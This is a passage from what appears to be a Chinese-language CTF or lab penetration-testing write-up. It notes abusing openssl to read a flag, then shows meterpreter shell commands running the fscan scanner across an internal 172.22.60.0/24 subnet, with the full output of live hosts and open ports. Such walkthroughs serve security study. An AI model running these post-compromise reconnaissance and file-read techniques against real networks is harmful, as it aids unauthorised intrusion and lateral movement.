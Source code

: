 发现 openssl 可以利用，借此读取 Flag

[![](assets/1706846898-1984d2df4c837c0c148ca558bd1e610c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131213956-38c7a5e8-c03e-1.png)

# 内网横向

## 信息搜集

Fscan 扫描

```bash
meterpreter > shell -c 'chmod +x *'
meterpreter > shell -c './fscan -h 172.22.60.52/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.60.8     is alive
(icmp) Target 172.22.60.15    is alive
(icmp) Target 172.22.60.42    is alive
(icmp) Target 172.22.60.52    is alive
[*] Icmp alive hosts len is: 4
172.22.60.42:445 open
172.22.60.15:445 open
172.22.60.8:445 open
172.22.60.42:139 open
172.22.60.15:139 open
172.22.60.8:139 open
172.22.60.15:135 open
172.22.60.42:135 open
172.22.60.8:135 open
172.22.60.52:80 open
172.22.60.52:22 open
172.22.60.8:88 open
[*] alive ports len is: 12
start vulscan
[*] NetInfo 
[*]172.22.60.42
   [->]Fileserver
   [->]172.22.60.42
   [->]169.254.241.110
```